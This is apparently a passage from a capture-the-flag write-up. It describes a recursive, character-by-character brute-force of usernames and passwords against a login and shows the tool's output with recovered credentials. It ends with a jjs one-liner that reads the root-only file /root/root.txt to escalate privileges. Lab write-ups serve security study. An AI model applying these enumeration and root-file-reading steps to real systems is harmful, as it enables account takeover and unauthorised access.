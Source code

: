 There are some differences here. With a password, once I find that the 4th character is “P”, there’s no need to try other characters. That’s not the case with usernames, as “administrator”, “admin”, and “adam” could all be users. 

To solve this, I’ll use recursion. The function takes the valid start of a username as the input and tries that input plus each character. For all that succeed, it calls the same function, passing in the start + the new character. If none of the characters succeed, that means that the passed in string must be the username.

```bash
python3 brute-v4.py
Starting brute-force attack...
[+] Found Username Initials with: a                   
[+] Found Username Initials with: m                   
[+] Found user: ad                                
[+] Found user: adm                        
[+] Found user: admi                        
[+] Found user: admin                        
[+] User found: admin                         
[+] Found password for admin: c        
[+] Found user: ma                        
[+] Found user: man                        
[+] Found user: mang                        
[+] Found user: mango                        
[+] User found: mango                         
[+] Found password for mango: h3mXK8RhU~f{]f5H
```

```txt
Given that I had the correct password for admin, why did SSH fail? The last line of /etc/ssh/sshd_config:
```

```bash
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```